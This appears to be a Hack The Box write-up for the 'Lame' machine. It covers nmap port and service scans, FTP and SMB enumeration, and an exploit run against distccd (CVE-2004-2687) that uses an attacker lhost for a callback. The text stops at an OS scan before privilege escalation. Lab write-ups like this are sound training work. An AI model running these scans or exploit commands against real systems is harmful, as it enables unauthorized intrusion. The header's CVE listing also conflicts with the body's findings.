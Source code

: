 # Hack the Box - Lame

```CSS
Machine IP: 10.10.10.3 - Linux
Difficulty: Easy
Category: OSCP Preparation
Vulmerabilities:
  - CVE-2011-2523: vsftpd 2.3.4 - Backdoor Command Execution
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -p- 10.10.10.3 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.3
Host is up (0.18s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 131.61 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 21,22,139,445,3632 10.10.10.3 -oN services.nmap

Nmap scan report for 10.10.10.3                                                      
Host is up (0.17s latency).                                                          
                                                                                     
PORT     STATE SERVICE     VERSION                                                   
21/tcp   open  ftp         vsftpd 2.3.4                                              
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)        
| ftp-syst: 
|   STAT:           
| FTP server status:                                                                 
|      Connected to 10.10.14.24
|      Logged in as ftp           
|      TYPE: ASCII     
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status          
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:                   
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)       
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)                
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
                                          
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)                                      
| smb-os-discovery:            
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:       
|   Domain name: hackthebox.gr          
|   FQDN: lame.hackthebox.gr           
|_  System time: 2023-05-07T02:00:56-04:00
| smb-security-mode:                      
|   account_used: <blank>
|   authentication_level: user                                                       
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h59m43s, deviation: 2h49m43s, median: -17s
                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.82 seconds
```

---

# Enumeration

## Port 21 - FTP
  - Service and Version:`vsftpd 2.3.4`
  - Anonymous login is allowed.
![image](https://user-images.githubusercontent.com/83878909/236660813-dfffeaff-5498-4751-9611-33ed709a53c3.png)

```CSS
▶ ftp 10.10.10.3
```

  - No useful information was found.
![image](https://user-images.githubusercontent.com/83878909/236660787-9747600c-2dc6-4367-8179-e390ddcc588e.png)

### vsfptd 2.3.4
  - Check if the version is vulnerable using NMAP.
  - Search for a NMAP script to check `ftp` service.
```CSS
▶ ls /usr/share/nmap/scripts/ftp*
```
![image](https://user-images.githubusercontent.com/83878909/236664752-1a4b5dc8-8d51-49c3-b571-ab4953cf5983.png)

```CSS
▶ nmap -p 21 10.10.10.3 --script ftp-vsftpd-backdoor.nse
```
![image](https://user-images.githubusercontent.com/83878909/236664883-3430962a-ccbe-4d05-8348-9ff8ae89c375.png)
  - The above output shows that the target is not vulnerable.

---

## Port 139 & 445 - SMB (Samba)
  - Service and Version: `Samba 3.0.20 Debian`
![image](https://user-images.githubusercontent.com/83878909/236665134-25d9feb4-5cd8-4dc4-aadb-5871a4b3b898.png)

  - List Shares Anonymous
```CSS
▶ smbclient -L \\lame.hackthebox.gr -I 10.10.10.3 -N 
```
![image](https://user-images.githubusercontent.com/83878909/236665450-f2a18dcd-6de5-4c71-8a07-40edb57313d8.png)

  - View Share Permisssions
```CSS
▶ smbmap -H 10.10.10.3
```
![image](https://user-images.githubusercontent.com/83878909/236667248-57476b99-3660-4588-988d-06b7be5d5c86.png)

---

## Port 3632 distccd v1
  - Check if the version is vulnerable using NMAP.
  - Search for a NMAP script to check `distccd` service.

```CSS
▶ ls /usr/share/nmap/scripts/dist*
```
![image](https://user-images.githubusercontent.com/83878909/236667913-e01b1c12-28a9-4a99-a8ad-8abaaf12d65f.png)

```CSS
▶ nmap -Pn -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse
```
![image](https://user-images.githubusercontent.com/83878909/236667868-56a68f3d-9a51-412f-b315-9b62fb71ec49.png)

---

# Exploit - Method I

## Initial Foothold
## DistCC Daemon Command Execution (CVE-2004-2687)
  - Exploit 

```CSS
▶ python CVE-2004-2687-Exploit.py --rhost 10.10.10.3 --lhost 10.10.14.24
```
![image](https://user-images.githubusercontent.com/83878909/236668409-86d65ad4-c6b0-44ef-b69c-42948fb7a440.png)

## Privilege Escalation
  - Check OS version using NMAP.
```CSS
▶ nmap -O --osscan-guess 10.10.10.3
```
![image](https://user-images.githubusercontent.com/83878909/236670200-3ff0d70b-edaf-4f1e-844d-4737b2a7a33e.png)
